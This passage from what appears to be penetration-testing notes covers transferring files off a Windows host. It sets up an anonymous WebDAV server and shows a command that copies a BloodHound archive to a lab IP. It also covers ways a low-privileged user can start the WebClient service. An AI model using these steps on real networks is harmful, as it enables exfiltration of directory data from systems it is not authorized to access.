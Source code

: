 Install [wsgidav](https://github.com/mar10/wsgidav) in a virtual environment:

```console
inte@debian-pc:~$ mkdir dav && cd dav
inte@debian-pc:~$ python3 -m venv .venv
inte@debian-pc:~$ source .venv/bin/activate
(.venv) inte@debian-pc:~$ python3 -m pip install git+https://github.com/mar10/wsgidav.git
(.venv) inte@debian-pc:~$ python3 -m pip install cheroot
```

Again, the `cap_net_bind_service` capability is needed over Python binary to bind lower ports without root privileges:

```console
inte@debian-pc:~$ sudo apt install libcap2-bin
inte@debian-pc:~$ sudo setcap 'cap_net_bind_service=+ep' /usr/bin/python3.12
```

Start the WebDAV server:

```console
(.venv) inte@debian-pc:~$ wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root=`pwd`
```

Transfer with:

```console
PS C:\> copy C:\Windows\Tasks\BH.zip \\192.168.56.2\DavWWWRoot\
```

A prerequisite for this technique is to have the WebClient service running.  
To check if the WebClient service is installed:

```console
PS C:\> Get-Service -Name WebClient

Status   Name               DisplayName
------   ----               -----------
Stopped  WebClient          WebClient
```

If the WebClient is installed but not currently running, there are several methods to start it from the perspective of a low-priv user.  
A custom ETW event trigger can enable the service. [C++](https://www.tiraniddo.dev/2015/03/starting-webclient-service.html) and [C#](https://gist.github.com/klezVirus/af004842a73779e1d03d47e041115797) PoCs for the same were presented by `tiraniddo` and `klezVirus` respectively.  
The `.searchConnector-ms` trick is also viable. With a bit of luck, something as simple as the following can enable the WebClient service:

```console
PS C:\> net use * http://localhost
```

### 3. FTP server

Install [pyftpdlib](https://github.com/giampaolo/pyftpdlib):

```console
inte@debian-pc:~$ python3 -m pip install --break-system-packages pyftpdlib
```

